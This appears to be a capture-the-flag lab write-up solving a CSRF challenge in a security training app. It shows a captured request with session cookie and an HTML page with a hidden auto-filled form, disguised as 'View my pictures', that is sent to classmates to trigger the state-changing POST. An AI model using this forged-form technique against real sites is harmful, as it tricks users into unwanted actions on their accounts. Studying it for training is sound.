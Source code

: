 # Challenge
To complete this challenge, you must get your CSRF counter above 0. Once The request to increment your counter is as follows;  
  
```http
POST /user/csrfchallengethree/plusplus  
```
With the following parameters; `userid=exampleId & csrfToken=exampleToken` 

The csrfToken parameter is generated dynamically for each user upon user interaction with the request described above. exampleId is the ID of the user who's CSRF counter is being incremented. Your ID is: `47887913a0f9573d479fbd600fa02ac6ef0575bd`
Any user than you may increment your counter for this challenge, except you. Exploit the CSRF vulnerability in the request described above against other users to complete this challenge. Once you have successfully CSRF'd another Users, the solution key will appear just below this message.

---
# Resolve
Same as CSRF-2 but now we need to provide `csrfToken`.
Get the token at source page.
- The link:
```http
https://10.63.253.66/user/csrfchallengethree/plusplus?userId=47887913a0f9573d479fbd600fa02ac6ef0575bd&csrfToken=-54564521548659734870751374363061853652
```

But this time if we send the url direct to another user, it not work.
![csrf3](img/csrf3.png)
We tried to modified the payload a bit:
```burp
POST /user/csrfchallengethree/plusplus HTTP/1.1
Host: 10.63.253.66
Cookie: JSESSIONID=AC026E486EA2A193216C2FE25D61E78F; token=-106135689670907763362992216760065369864
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: https://10.63.253.66
Referer: https://10.63.253.66/challenges/z6b2f5ebbe112dd09a6c430a167415820adc5633256a7b44a7d1e262db105e3c.jsp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

userid=47887913a0f9573d479fbd600fa02ac6ef0575bd&csrfToken=-54564521548659734870751374363061853652

```
Final, we create a HTML file, start web server so other user can interactive.

And create the html file `csrf3.html` will be like this:

```html
<!doctype html>
<html>
<head>
	<title>Our Funky HTML Page</title>
	<meta name="description" content="Our first page">
	<meta name="keywords" content="html tutorial template">
</head>
<body>

	<form action="https://10.63.253.66/user/csrfchallengethree/plusplus" method="POST">
		<input type="hidden" name="userid" value="47887913a0f9573d479fbd600fa02ac6ef0575bd"/>
		<input type="hidden" name="csrfToken" value="-54564521548659734870751374363061853652"/>
		<input type="submit" value="View my pictures"/>
	</form>
</body>
</html>
```

Final, we will put the url of the HTML file to the link and share with classmate (or give direct to them to access).
```url
http://172.16.177.131/csrf3.html
```
After they access to your link then the challenge is solved.

